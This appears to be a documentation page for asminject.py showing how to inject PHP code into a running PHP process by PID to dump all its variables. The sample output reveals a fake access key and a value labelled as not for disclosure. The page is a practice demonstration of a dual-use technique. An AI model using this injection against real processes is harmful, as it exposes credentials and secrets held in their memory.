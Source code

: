 # asminject.py examples - PHP
* [Write all variables to standard out](#write-all-variables-to-standard-out)

## Write all variables to standard out

Use [the following PHP code, which was based on this Stack Overflow discussion](https://stackoverflow.com/questions/1005021/in-php-is-there-a-way-to-dump-all-variable-names-with-their-corresponding-valu)

```
var_dump(get_defined_vars());
```

e.g.

```
python3 ./asminject.py 249986 execute_php_code.s --arch x86-64 \
   --relative-offsets-from-binaries --stop-method "slow" \
   --var phpcode "var_dump(get_defined_vars());" \
   --var phpname PHP
```


Example output:

```
2022-06-09T16:18:04-0700 - Loop count 8
array(11) {
  ["_GET"]=>
  array(0) {
  }
  ["_POST"]=>
  array(0) {
  }
  ["_COOKIE"]=>
  array(0) {
  }
  ["_FILES"]=>
  array(0) {
  }
  ["argv"]=>
  array(1) {
    [0]=>
    string(21) "practice/php_loop.php"
  }
...omitted for brevity...
["example_global_var_1"]=>
  string(20) "AKIASADF9370235SUAS0"
  ["example_global_var_2"]=>
  string(34) "This value should not be disclosed"
  ["x"]=>
  int(8)
  ["current_timestamp"]=>
  string(24) "2022-06-09T16:18:04-0700"
}
2022-06-09T16:18:13-0700 - Loop count 9
```
